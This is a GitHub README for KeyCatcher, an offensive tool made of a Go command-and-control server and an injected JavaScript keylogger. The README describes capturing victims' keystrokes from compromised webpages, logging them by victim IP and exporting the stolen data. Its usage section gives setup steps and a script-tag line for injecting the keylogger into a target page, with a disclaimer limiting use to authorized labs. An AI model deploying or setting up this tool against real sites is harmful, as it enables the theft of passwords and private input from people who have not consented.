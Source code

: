 # 🎯 KeyCatcher – Terminal-Based Keystroke Exfiltration C2

![Language: Go](https://img.shields.io/badge/language-Go-blue.svg)
![License: MIT](https://img.shields.io/badge/license-MIT-green.svg)
![Platform](https://img.shields.io/badge/platform-Linux%20%7C%20macOS%20%7C%20Windows-lightgrey)

**KeyCatcher** is a powerful terminal-based C2 server. It captures keystrokes from compromised webpages and visualizes them in a clean, real-time Terminal UI.
![Demo](keycatcher.gif)

## ✨ Features

- 🚀 **Real-Time Keystroke Capture** : Watch victims type live with zero delay.

- 📊 **Beautiful Terminal UI**  : Built with `tview`, logs are neatly organized by victim IP.

- 💾 **Persistent Storage**  : All keystrokes are stored in `keystrokes.db` (SQLite).

- 📦 **Self-Hosted Payload** : Automatically serves `keylogger.js` for easy deployment.

- 🧠 **Smart Log Parsing**  :  Recognizes and labels special keys like `[BACKSPACE]`, `[ENTER]`, etc.

- ⬇️ **One-Click Data Export**  : Export logs per victim using a single hotkey.

- 💻 **Cross-Platform Support**  : Works on **Linux**, **macOS**, and **Windows**.


## 🛠 How It Works

### 🧩 1. JavaScript Payload (`keylogger.js`)
- Injected into the target page.
- Captures keystrokes using `keydown` events.
- Sends each keypress to the C2 server via `POST /log`.

### 🧠 2. Go C2 Server (`main.go`)
- **HTTP Listener** – Serves the payload and receives data.
- **SQLite Logger** – Stores each keystroke with IP data.
- **TUI Renderer** – Uses `tview` to display victim data and keystrokes in real-time.


## 📋 Requirements

- **Go** version `1.18+` installed.


## 🚀 Installation & Setup

```bash
# 1. Clone the repository
git clone https://github.com/your-username/keycatcher.git

# 2. Change directory
cd keycatcher

# 3. Install dependencies
go mod tidy

# 4. Configure the payload:
Open the keylogger.js file and modify the attackerServer variable to point to the IP address and port of the machine where you will run the KeyCatcher server.
```

# ▶️ Usage

```bash
# 1. Start the KeyCatcher C2 Server Or you can download the executable and run it directly
  go run main.go
# 2. Deploy the Payload:Inject the following script tag into the target webpage. The victim's browser will fetch and execute the payload from your C2 server.
  <script src="http://192.168.1.110:80/keylogger.js"></script>
# 3. Monitor the TUI:
    a. As victims visit the infected page and start typing, their IP addresses will appear in the "Victims" list on the left.
    b. Use the Up/Down arrow keys to select a victim.
    c. The "Keystrokes" pane on the right will display their reconstructed typing in real-time.
    d. Press Ctrl+E to export all captured logs to exfiltrated_data.log.
    e. Press Ctrl+C to quit the application.
```


⚠️ Disclaimer

This tool is intended for educational purposes and for use in authorized security testing scenarios only, such as the OffSec labs. Unauthorized use of this tool to capture keystrokes from individuals without their explicit consent is illegal and unethical. The author is not responsible for any misuse or damage caused by this program.

    

    
